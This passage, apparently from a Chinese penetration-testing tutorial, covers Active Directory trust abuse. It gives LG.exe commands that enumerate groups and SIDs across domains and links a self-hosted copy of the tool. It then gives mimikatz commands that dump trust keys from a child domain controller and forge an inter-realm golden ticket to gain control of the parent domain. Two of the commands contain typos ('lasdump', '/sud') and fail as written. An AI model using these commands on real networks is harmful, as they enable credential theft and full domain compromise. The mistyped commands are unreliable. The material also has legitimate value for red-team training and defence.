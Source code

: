 #### 获取域信息

在域中，Enterprise Admins组（仅出现在林的根域中）的成员具有对目录林中所有域的完全控制权限。在默认情况下，该组包含林中所有域控制器上具有Administrators权限的成员。

这里需要用到LG.exe工具，下载地址：[LG (joeware.net)](http://www.joeware.net/freetools/tools/lg/index.htm)

访问不到从我这下载好了：[LG.exe](/download/x86/LG.exe)

先给出用法好了，找到工具再补上：

枚举lab域中的用户组：

```powershell
lg.exe lab\.
```

枚举远程机器的本地组用户：

```powershell
lg.exe \\dc
```

如果建立了信任关系且当前权限被另一域信任，使用：

```powershell
lg.exe \\dc -lu
```

可以看到另一域的情况。

获取远程系统中全部用户的SID：

```powershell
lg \\dc -lu -sidsout
```

获取指定组中所有成员的SID：

```powershell
lg \\dc\administrators -sidsout
```

#### 利用域信任密钥获取目标域的权限

假设环境如下：

* 父域的DC：dc.test.com（Win Server 2008 R2）
* 子域的DC：subdc.test.com（Win Server 2012 R2）
* 子域内的计算机：pc.sub.test.com（Win 7）
* 子域内的普通用户：sub\test

在subdc.test.com中使用mimikatz获取需要的信息：

```powershell
mimikatz.exe privilege::debug "lsadump::lsa /patch /user:test$" "lasdump::trust /patch" exit
```

这可以获取到当前机器的域的SID、目标域的SID和信任密钥(NTLM和RC4_HMAC_NT)。

随后使用mimikatz创建信任票据：

```powershell
mimikatz "kerberos::golden /domain:sub.test.com /sud:当前域的SID /sids:目标域的SID-XXX /rc4:RC4_HMAC_NT /user:伪造用户名 /service:krbtgt /target:test.com /ticket:test.kirbi" exit
```

